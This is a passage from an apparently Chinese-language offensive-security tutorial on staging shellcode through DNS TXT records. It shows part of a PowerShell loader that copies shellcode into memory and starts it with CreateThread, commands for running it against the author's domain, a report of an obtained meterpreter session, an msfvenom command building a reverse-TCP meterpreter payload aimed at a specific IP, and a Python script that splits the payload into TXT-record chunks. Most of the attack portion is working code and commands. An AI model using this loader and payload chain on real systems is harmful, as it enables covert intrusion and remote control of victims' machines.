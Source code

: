 ```
    for ($i=0;$i -le ($sc.Length-1);$i++) {$winFunc::memset([IntPtr]($x.ToInt64()+$i), $sc[$i], 1)}
    Try {
        $winFunc::CreateThread(0,0,$x,0,0,0)
        sleep 100000
        }
    Catch
    {
    [system.exception]
    "caught a system exception"
    }
}

```

> 参数说明，**Shelldomain **为创建txt记录的域名或子域名;**subdomains**为创建TXT域名的个数，如上面所创建的为3;**AUTHNS **为域的权威名称服务器，如我使用的狗爹，所以AUTHNS为f1g1ns2.dnspod.net

在32位win7上执行：

```
PS C:\Users\evi1cg\Desktop> . .\Execute-Code.ps1
PS C:\Users\evi1cg\Desktop> Execute-Code -Shelldomain 32.evi1cg.me -subdomains 3 -AUTHNS f1g1ns2.dnspod.net

```

成功获取meterpreter会话：

![Alt text](http://drops.javaweb.org/uploads/images/c73eef6506e9cc1b3c7968793a7f496d5fcb27e7.jpg)

64位的请自行修改payload及脚本。

0x04 补充
=====

Metasploit中已经含有此脚本[dns_txt_query_exec.rb](https://raw.githubusercontent.com/rapid7/metasploit-framework/master/modules/payloads/singles/windows/dns_txt_query_exec.rb)，此脚本查询TXT记录的顺序为a.domain,b.domain...,下面是一个示例，首先生成payload:

```
☁  ~  sudo msfvenom -p windows/meterpreter/reverse_tcp LHOST=103.238.225.222 LPORT=8887 -e x86/alpha_mixed Bufferregister=EDI -f raw > reverse.txt

```

使用下面的脚本对该文件进行切割：

```
#!/usr/bin/env python
#coding=utf-8
def txt(string,length):
    return [string[x:x+length] for x in range(0,len(string),length)]
with open('out.txt','w+') as f:
    line = open('reverse.txt','r').read()
    line= txt(line,255)
    for txts in line:
        f.writelines(txts+'\n\n\n\n')

```
